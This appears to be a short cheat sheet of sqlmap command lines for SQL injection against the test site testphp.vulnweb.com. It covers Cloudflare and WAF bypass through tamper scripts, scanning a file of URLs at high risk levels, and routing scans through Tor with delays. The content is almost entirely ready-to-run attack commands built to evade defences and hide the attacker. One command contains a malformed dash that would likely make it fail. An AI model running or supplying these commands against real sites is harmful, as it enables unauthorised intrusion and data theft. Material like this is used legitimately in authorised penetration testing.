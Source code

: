 <h1>SQLmap</h1>

### Cloudflare bypass tamper=space2comment,between,randomcase
```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1*" --batch --random-agent --risk=3 --level=5 --current-db --tamper=space2comment,between,randomcase --no-cast
```
### file based scan
```
sqlmap -m sqli_urls.txt --random-agent --batch --level=3 --risk=2 --current-db --tamper=space2comment,between,randomcase
```
### More waf bypass
```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1*" --tor --time-sec 20 -‐banner --delay 10 --tamper=space2comment,between,randomcase
```
